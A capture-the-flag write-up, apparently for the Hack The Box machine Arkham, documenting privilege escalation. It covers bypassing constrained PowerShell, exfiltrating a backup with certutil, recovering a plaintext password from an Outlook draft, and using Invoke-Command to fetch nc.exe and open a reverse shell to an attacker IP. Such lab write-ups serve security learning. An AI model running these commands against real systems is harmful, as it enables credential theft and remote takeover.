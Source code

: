# 20 - PrivEsc


# backup.zip
```
PS C:\Users\Alfred\Downloads\backups> dir
dir


    Directory: C:\Users\Alfred\Downloads\backups


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         2/3/2019   8:41 AM         124257 backup.zip                                                            


PS C:\Users\Alfred\Downloads\backups> 
```


# Constrained language
```bash
PS C:\Users\Alfred\Downloads\backups> $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename))
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename))                                                                                                                 
Cannot invoke method. Method invocation is supported only on core types in this language mode.
At line:1 char:1                  
+ $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($fi ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage
```

our shell is restricted


# Copy backup.zip to attacker

```
PS C:\Users\Alfred\Downloads\backups> certutil -encode backup.zip backup.txt
certutil -encode backup.zip backup.txt
Input Length = 124257
Output Length = 170910
CertUtil: -encode command completed successfully.
```

The first and the last lines must be removed in order to decode with base64 on linux.


```
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ base64 -d backup.b64 > backup.zip
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ file backup.zip 
backup.zip: Zip archive data, at least v2.0 to extract
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ unzip backup.zip 
Archive:  backup.zip
  inflating: alfred@arkham.local.ost  
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/backup]
└──╼ $ file alfred@arkham.local.ost 
alfred@arkham.local.ost: Microsoft Outlook email folder
```

# Import Outlook file on Evolution

![](vx_images/2836795266640.png)

After importing the outlook folder, we discover that there is a draft which contains an image of a cmd command. Last part of the command is the password of the user batman.


# Invoke-Command powershell remoting
```
PS C:\Users\Alfred\Downloads\backups> $pass = convertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
PS C:\Users\Alfred\Downloads\backups> $cred = New-Object System.Management.Automation.PSCredential("batman",$pass)
PS C:\Users\Alfred\Downloads\backups> hostname
ARKHAM
PS C:\Users\Alfred\Downloads\backups> Invoke-Command -Computer ARKHAM -ScriptBlock { powershell IWR -uri http://10.10.14.18/nc.exe -outfile c:\Users\batman\nc.exe} -Credential  $cred

PS C:\Users\Alfred\Downloads\backups> Invoke-Command -Computer ARKHAM -ScriptBlock { c:\Users\batman\nc.exe -e powershell.exe 10.10.14.18 9002} -Credential $cred

```


# Shell
![](vx_images/4095231085066.png)
